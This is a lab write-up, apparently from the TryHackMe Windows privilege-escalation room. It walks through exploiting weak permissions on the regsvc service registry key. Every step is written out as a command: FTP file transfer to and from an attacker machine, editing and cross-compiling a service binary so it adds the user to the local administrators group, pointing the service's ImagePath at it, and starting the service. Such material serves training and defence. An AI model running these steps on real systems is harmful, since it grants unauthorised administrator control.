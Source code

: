 # Service Escalation - Registry

- Using `Get-Acl` we determine that the `NT AUTHORITY\INTERACTIVE` has full control over the `regsvc` registry
- We can add a malicious executable to the registry service
- We can exploit this to either get a reverse shell or add a user

## Step 1: Detection

- Open PowerShell prompt and type: **`Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`**

```jsx
C:\Users\user> powershell -ep bypass
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

- Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

![get_acl](\images\get_acl.png)

## Step 2: Transfer File

- Start FTP server on port 21 and allow `write` access

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ pip3 install pyftpdlib

┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m pyftpdlib -p 21 --write
/home/vagrant/.local/lib/python3.11/site-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2023-12-27 23:12:18] concurrency model: async
[I 2023-12-27 23:12:18] masquerade (NAT) address: None
[I 2023-12-27 23:12:18] passive ports: None
[I 2023-12-27 23:12:18] >>> starting FTP server on 0.0.0.0:21, pid=2440229 <<<
```

- Open terminal in the directory where `windows_service.c` is located

![source](\images\source.png)

- Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the attack machine

```jsx
C:\Users\User\Desktop\Tools\Source> ftp 10.18.48.44
User (10.18.48.44:(none)): anonymous
Password:
230 Login successful
ftp> put windows_service.c
```

![put](\images\put.png)

## Step 3: Exploitation

- Open `windows_service.c` in a text editor and replace the command used by the system() function to: **`cmd.exe /k net localgroup administrators user /add`**

![edit](\images\edit.png)

- Compile the file by typing the following in the command prompt:
  - **`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`**
  - **NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`'**

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

- Copy the generated file `x.exe`, to the target using the `pytfp` server
- Make sure to use `binary` mode for the transfer process

![get](\images\get.png)

### Add Executable to `ImagePath` of the Registry Service

- Open command prompt at type:

**`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`**

```jsx
C:\Temp> **reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f**
```

- Start the `registry service` in the command prompt type: **`sc start regsvc`**

```jsx
C:\Temp> sc start regsvc
```

- Verify the `user` account has been added to the `local administrators` group

```jsx
C:\Temp> net localgroup administrators
```

![start](\images\start.png)
